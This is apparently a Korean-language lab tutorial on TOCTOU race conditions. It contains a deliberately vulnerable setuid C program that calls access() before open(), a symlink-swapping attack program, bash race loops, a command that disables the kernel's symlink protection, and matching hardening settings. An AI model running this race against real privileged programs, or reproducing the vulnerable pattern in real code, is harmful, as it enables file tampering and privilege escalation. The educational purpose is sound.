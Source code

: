 ## **Concept**

Race condition은 프로세스 또는 스레드 간 자원을 사용하기 위한 경쟁을 뜻한다. 이러한 경쟁은 프로세스 또는 스레드의 순서 또는 타이밍에 따라 발생한다.  
Race condition은 프로세스, 스레드에서 사용되는 자원이 공유된 상태일 경우 자주 발생한다.

#### **TOCTTOU(Time of check to time of use)**

TOCTTOU는 소프트웨어에서 리소스의 상태를 확인하는 시간과 사용하는 시간 사이에 리소스를 변경하여 리소스의 상태 확인 결과를 우회하는 방법.

## **Proof of Concept**

가짜 /etc/passwd 파일을 생성하고 실제 /etc/passwd와 같은 설정을 적용한다.

```
root@bs-virtual-machine:~/pwnable/Race_condition# mkdir etc
root@bs-virtual-machine:~/pwnable/Race_condition# ls -al
total 12
drwxr-xr-x 3 root root 4096 11월 18 20:29 .
drwxr-xr-x 4 root root 4096 11월 18 20:29 ..
drwxr-xr-x 2 root root 4096 11월 18 20:29 etc
root@bs-virtual-machine:~/pwnable/Race_condition# cd etc
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls
root@bs-virtual-machine:~/pwnable/Race_condition/etc# echo Only Root! > passwd
root@bs-virtual-machine:~/pwnable/Race_condition/etc# cat passwd 
Only Root!
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls -al
total 12
drwxr-xr-x 2 root root 4096 11월 18 20:30 .
drwxr-xr-x 3 root root 4096 11월 18 20:29 ..
-rw-r--r-- 1 root root   11 11월 18 20:30 passwd
```

취약한 프로그램을 생성한다.

```c
// Vuln Code
// gcc vuln.c -o vuln ; chown root:root vuln ; chmod 4755 vuln 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
  
void main()
{
    int fd;
    char *file = "./file";
    char buffer[]="Success!! Race Condition : Attacker n";
 
    if (!access(file, W_OK)) {
        printf("Able to open file %s.\n",file);
        fd = open(file, O_WRONLY);
        write(fd, buffer, sizeof(buffer));
        close(fd);
    }else{
        //printf("Unable to open file %s.\n",file);
    }
}
```

access() 함수를 이용하여 쓰기 가능한지 확인하고 쓰기가 가능하면 open(), write(), open(), write() 함수를 이용하여 파일을 읽고 내용을 작성한다.  

access()와 open()이 file handler 대신 파일 이름을 사용하여 access() 함수에 전달된 파일이 open() 함수에 전달될 파일과 같을 수 있다는 보장이 없다. 공격자가 access() 함수 호출 후 심볼릭 링크로 파일을 변경하면 open() 함수에 의해 다른 파일을 수정할 수 있다.

file을 unlink한 후 file에 ./etc/passwd 파일을 링크해주는 공격 프로그램을 작성한다.

```c
// gcc attack.c -o attack
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
void main()
{
    unlink("file");
    symlink("./etc/passwd","file");
}
```

./vuln 프로그램을 계속 실행시켜주는 스크립트를 작성한다.

```shell
#!/bin/bash
while :
do
    ./vuln
done
```

./ect/passwd를 계속 비교하면서 변경된 경우 "Success"를 출력하는 스크립트를 작성한다.

```shell
#!/bin/bash
CHECK_FILE="ls -l ./etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./attack
    new=$($CHECK_FILE)
done
echo "Success! The passwd file has been changed"
```

리눅스 커널의 보안 기술을 해제한다.

```shell
bs@bs-virtual-machine:~/race_condition$ sudo sysctl -w fs.protected_symlinks=0
fs.protected_symlinks = 0
```

## **Exploit**

Terminal1으로 run.sh 스크립트를 통해 ./vuln 프로그램을 지속적으로 실행한다.

```
bs@bs-virtual-machine:~/race_condition$ echo > file
bs@bs-virtual-machine:~/race_condition$ bash run.sh 
Able to open file ./file.
Able to open file ./file.
...
```

Terminal2에 race.sh 스크립트를 통해 ./attack 프로그램을 ./etc/passwd가 변조될 때까지 실행시킨 다음 ./etc/passwd이 변조된 것을 확인한다.

```
bs@bs-virtual-machine:~/race_condition$ bash race.sh 
Success! The passwd file has been changed
bs@bs-virtual-machine:~/race_condition$ cat ./etc/passwd 
Success!! Race Condition : Attacker
```

### **File system hardening**

리눅스 커널은 프로그램(tmp-races, TOCTOU)의 안전하지 않은 파일 시스템 액세스에 대한 취약성에 대한 위협을 완하하기 위해 해당 보안 기술을 적용하였다.

```
Ubuntu 12.04
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
Ubuntu 16.04
$ sudo sysctl -w fs.protected_symlinks=1
```

**References**  
[https://www.lazenca.net/display/TEC/09.Race+condition](https://www.lazenca.net/display/TEC/09.Race+condition)